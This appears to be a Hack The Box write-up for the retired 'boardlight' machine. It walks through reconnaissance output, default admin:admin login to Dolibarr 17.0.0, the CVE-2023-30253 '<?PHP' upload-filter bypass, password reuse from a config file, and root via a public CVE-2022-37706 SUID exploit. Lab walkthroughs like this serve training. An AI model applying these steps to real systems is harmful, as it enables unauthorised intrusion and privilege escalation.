 ```yaml
---
layout: post
title: HTB - boardlight
date: 2025-03-10 08:56 -0400
---
```


{{ 'boardlight' | get_machine_avatar | raw }}

## nmap
```nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-27 14:00 -04
Nmap scan report for 10.10.11.11
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 062d3b851059ff7366277f0eae03eaf4 (RSA)
|   256 5903dc52873a359934447433783135fb (ECDSA)
|_  256 ab1338e43ee024b46938a9638238ddf4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 73.90 seconds
```

## subdomains
crm.boardlight.htb

## 404
apache default page

## dir bruteforce
```bash
~/workspace/projects/htb/retired_machines/boardlight » feroxbuster -u http://boardlight.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://boardlight.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      279c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        1l        3w       16c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      313c http://boardlight.htb/js => http://boardlight.htb/js/
301      GET        9l       28w      317c http://boardlight.htb/images => http://boardlight.htb/images/
301      GET        9l       28w      314c http://boardlight.htb/css => http://boardlight.htb/css/
200      GET      294l      635w     9426c http://boardlight.htb/contact.php
200      GET        9l       24w     2405c http://boardlight.htb/images/d-2.png
200      GET        6l       52w     1968c http://boardlight.htb/images/twitter.png
200      GET        5l       12w      847c http://boardlight.htb/images/envelope-white.png
200      GET        6l       57w     1878c http://boardlight.htb/images/youtube.png
200      GET        5l       55w     1797c http://boardlight.htb/images/linkedin.png
200      GET       11l       50w     2892c http://boardlight.htb/images/d-1.png
200      GET        7l       48w     3995c http://boardlight.htb/images/d-5.png
200      GET      714l     1381w    13685c http://boardlight.htb/css/style.css
200      GET      517l     1053w    15949c http://boardlight.htb/index.php
200      GET      348l     2369w   178082c http://boardlight.htb/images/map-img.png
200      GET      280l      652w     9100c http://boardlight.htb/about.php
200      GET      536l     2364w   201645c http://boardlight.htb/images/who-img.jpg
200      GET    10038l    19587w   192348c http://boardlight.htb/css/bootstrap.css
200      GET     4437l    10973w   131639c http://boardlight.htb/js/bootstrap.js
200      GET      517l     1053w    15949c http://boardlight.htb/
[####################] - 3m    106372/106372  0s      found:19      errors:52739
[####################] - 3m     26584/26584   136/s   http://boardlight.htb/
[####################] - 3m     26584/26584   137/s   http://boardlight.htb/js/
[####################] - 3m     26584/26584   137/s   http://boardlight.htb/images/
[####################] - 3m     26584/26584   137/s   http://boardlight.htb/css/
```

Nothing interesting.

### main page
![boardlight.htb](/assets/img/boardlight1.png)

Its a php site. Just a static site, no features. It does give two pieces of information:
- info@board.htb
- subdomain is board.htb not boardlight.htb

## crm.board.htb
![crm.boardlight.htb](/assets/img/boardlight2.png)

Dolibarr 17.0.0, its another php crm. This version is vulnerable to [CVE-2023-30253](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). Default creds are `admin:admin` and they work here.
  
![crm.boardlight.htb](/assets/img/boardlight3.png)

Using the cve you just change `<?php` to `<?PHP` and all the filters are bypassed.
That gives the `www-data` shell.

Users that have a shell:
```
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

There is a password on `/html/crm.board.htb/htdocs/conf/conf.php` works for `larissa`.
```bash
larissa@boardlight:~$ cat user.txt
43876***************************
```

Linpeas shows some interesting suid binaries:
```bash
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight  --->  Before_0.25.4_(CVE-2022-37706)
```

[CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) has a public poc that works as is.

```
larissa@boardlight:/tmp$ ./CVE-2022-37706.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
# cat /root/root.txt
004f2***************************
```
